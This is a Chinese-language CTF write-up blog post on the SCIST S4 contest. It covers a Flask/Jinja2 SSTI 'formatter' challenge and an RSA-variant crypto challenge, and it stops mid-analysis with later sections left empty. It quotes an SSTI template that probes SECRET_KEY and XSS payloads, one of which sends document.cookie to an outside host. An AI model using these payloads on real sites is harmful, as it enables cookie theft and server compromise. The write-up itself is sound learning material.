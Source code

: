 ```yaml
---
title: SCIST S4 資訊安全季後賽 Writeup
categories: CTF
tags:
- 資安
- SCIST
cover: https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/images 
---
```


# 0X00 前言

終於到了SCIST課程結束後的季後賽。我知道我自己肯定還有很多不足的地方，不過依然是挺期待這次的比賽，希望可以再讓自己更進步點。不過沒想到居然只解出兩題...多多少少還是有點打擊自己的信心的。不知道是不是比較沒有天分，又或是說準備的方式有錯誤，總之就是對自己這種好像一直有在學習新知識但比賽卻都沒看見成效的狀態有點自責 + 受挫。不過還是先直接進Writeup看一下我的解題過程吧！

# 0X01 Web

## formatter

這題是一個文字的格式化器，說是格式化，他其實只是把兩邊加上貓貓XD。

![題目](https://raw.githubusercontent.com/CX330Blake/MyBlogPhotos/main/image/image-20240714145845517.png)

如果你輸入了一些文字進去，他就會兩邊加上貓貓回傳回來。舉例來說，我先輸入`Test`然後點Submit，就會出現`😺 Test 😺`。稍微查詢了一下後，發現這題可能是個伺服器模板注入（Server Side Template Injection, SSTI）。這種漏洞就是攻擊者把惡意的代碼注入伺服器端的模板並操控模板引擎執行那些惡意代碼。而這題好像也確實有這個漏洞的存在，因為當我們輸入

```jinja2
{% for c in config["SECRET_KEY"] %}
{{c}}
{% endfor %}
```

他回傳的內容會是`😺 c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c c 😺`，這長度看起來和Flag差不多（?）。到這邊，我就卡住了。這裡之所以只會輸出`c`是因為伺服器代碼中有針對使用者輸入做過濾和替換，會把`{{`和`}}`替換為空字元，如下。

```python
if request.method == "POST":
        rawtext = request.form.get("rawtext")
        mappings = {"{{": "", "}}": "", ".": "...", "(": ""}
        for mapping in mappings:
            rawtext = rawtext.replace(mapping, mappings[mapping])
        rawtext = "😺 " + rawtext + " 😺"
        return render_template_string(rawtext)
```

到這邊卡住之後，我有看到題目的資料夾中還有另外一個資料夾，名稱叫做notes。打開來看發現裡面都是一堆像是XSS的Payload，舉幾個例子。

- `<svg/onload=alert(1)>`
- `<svg/onload=fetch('http://dev.vincent55.tw:8787?a='+document.cookie)>`

然後還有一個是Rickroll的連結XD（https://www.youtube.com/watch?v=dQw4w9WgXcQ&pp=ygUEcmljaw%3D%3D）。所以到了這時候我就一直很疑惑為甚麼會出現這些notes，是不是要提示我們這題是XSS。結果就到了最後還是沒解出這題。

# 0X02 Crypto

## Smoothie

直接看題目吧，我把題目給的加密腳本跟密文 + 公鑰放在一起了。

```python
from Crypto.Util.number import bytes_to_long, getPrime, isPrime, size
from Crypto.Random.random import randrange

from secret import FLAG, SIZE


def mango_a_go_go() -> int:
    while True:
        p = 2
        while size(p) < SIZE:
            p *= getPrime(randrange(2, 12)) 
        if isPrime(p - 1):
            return p - 1


def strawberries_wild() -> int:
    while True:
        p = 2
        while size(p) < SIZE:
            p *= getPrime(randrange(2, 12))
        if isPrime(p + 1):
            return p + 1


def yogurt() -> int:
    return getPrime(SIZE) ** 2


def main():
    e = 0x10001  
    smoothie = strawberries_wild() * mango_a_go_go() * yogurt()
    flag = bytes_to_long(FLAG.encode())
    flag = pow(flag, e, smoothie)
    print(f"flag = {flag}")
    print(f"smoothie = {smoothie}")


if __name__ == "__main__":
    main()

# flag = 469221284029086826023747997560431390782361982638061257450599210708962645002102847975462660638193645789450754543161479618083250809660166042502944853280554224255633426448658481032615217773743807123912268129954755529085653283483845209697030918916368538410596291283961216415664601562539040139144815815020812381504
# smoothie = 697628240852435861833732827649361589992628854136683558886480614847121218068368409674997942839000556721079790078853783722095774006008786802855171763400576735341062935016809334479917656367316628949895516450621001020141725837414164848350808778574391917507635861296067849758069488027024995888841277834894925864271
# e = 65537
```

看完之後應該會發現它就是個RSA的變形。原本RSA中的n在這裡叫做smoothie，但是原本的n應該是由兩個大質數p跟q所相乘得到的，這題則是由兩個質數和另一個質數的平方相乘所得到的。其中兩個質數是由`mango_a_go_go()`和`strawberries_wild()`得到的，而另一個質數的平方則由`yogurt()`算得。

題目分析到這邊之後，我的思路是去找到歐拉函數$\phi$，

# 0X03 Reverse

# 0X04 Pwn

# 0X05 Misc

# 0X06 心得

